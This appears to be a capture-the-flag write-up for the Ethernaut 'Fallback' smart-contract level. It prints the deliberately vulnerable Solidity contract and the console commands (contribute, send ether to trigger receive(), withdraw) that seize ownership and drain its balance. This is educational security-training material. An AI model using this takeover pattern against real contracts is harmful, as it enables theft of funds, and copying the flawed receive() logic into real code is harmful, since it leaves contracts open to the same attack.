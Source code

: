 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract from Ethernaut.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
Challenge wants us to own the contract and withdraw all contribution from the contract. For this purpose, we should contribute this contract and call ```receive()``` function. In this way, we will own of the contract and withdraw all contribution.

## Subverting
```shell
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
```shell
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```shell
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/"jsonrpc.png">

```shell
await contract.sendTransaction({value: 1})
```
```shell
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"

await contract.withdraw()

await contract.getContribution()
```
And submit instance.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/submit.png">

**_by wasny0ps_**
